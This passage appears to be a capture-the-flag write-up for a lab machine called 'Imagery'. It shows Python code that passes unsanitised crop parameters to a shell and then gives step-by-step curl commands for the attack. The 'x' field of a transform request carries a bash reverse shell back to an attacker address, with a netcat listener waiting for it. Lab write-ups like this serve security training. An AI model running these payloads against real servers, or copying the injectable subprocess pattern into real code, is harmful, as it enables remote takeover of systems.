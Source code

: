 **Vulnerable code snippet:**
```python
# VULNERABLE: shell=True with user-controlled input
rc = subprocess.call(
    f"convert {input_path} -crop {width}x{height}+{x}+{y} {output_path}",
    shell=True,
    stdout=subprocess.DEVNULL,
    stderr=subprocess.DEVNULL,
    timeout=4,
)
```

The `x`, `y`, `width`, and `height` parameters are not sanitized, allowing command injection.

#### Getting Shell Access

**1. Login as testuser:**
```bash
curl -X POST http://10.10.11.88:8000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"testuser@imagery.htb","password":"iambatman"}'
```

**2. Upload an image:**
```bash
curl -X POST http://10.10.11.88:8000/upload_image \
  -H "Cookie: session=TESTUSER_SESSION" \
  -F "title=Test" \
  -F "description=Test" \
  -F "group_name=My Images" \
  -F "file=@test.png"
```

**3. Trigger RCE via image transformation:**

Start listener:
```bash
nc -lvnp 4444
```

Send malicious transform request:
```bash
curl -X POST http://10.10.11.88:8000/apply_visual_transform \
  -H "Content-Type: application/json" \
  -H "Cookie: session=TESTUSER_SESSION" \
  -d '{
    "imageId":"IMAGE_ID",
    "transformType":"crop",
    "params":{
      "x":";setsid /bin/bash -c \" /bin/bash -i >& /dev/tcp/10.10.14.xx/4444 0>&1\";",
      "y":0,
      "width":1,
      "height":1
    }
  }'
```
